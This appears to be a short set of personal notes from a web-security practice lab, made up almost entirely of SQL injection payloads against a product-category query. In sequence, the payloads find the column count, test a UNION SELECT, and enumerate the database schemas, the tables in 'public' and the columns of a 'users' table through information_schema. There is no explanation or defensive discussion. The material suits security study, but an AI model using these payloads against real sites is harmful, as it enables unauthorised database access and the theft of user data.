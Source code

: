 ![](/img2/Pasted%20image%2020250708164308.png)

- Injection

```sql
SELECT * FROM products WHERE category = 'Gifts' order by 2-- -' AND released = 1
```

```sql
SELECT * FROM products WHERE category = 'Gifts' union select '1','2'-- -' AND released = 1
```

```sql
SELECT * FROM products WHERE category = '' union select NULL,schema_name from information_schema.schemata-- -' AND released = 1
```

```sql
SELECT * FROM products WHERE category = '' union select NULL,table_name from information_schema.tables where table_schema='public'-- -' AND released = 1
```

```sql
SELECT * FROM products WHERE category = '' union select NULL,column_name from information_schema.columns where table_schema='public' and table_name='users'-- -' AND released = 1
```
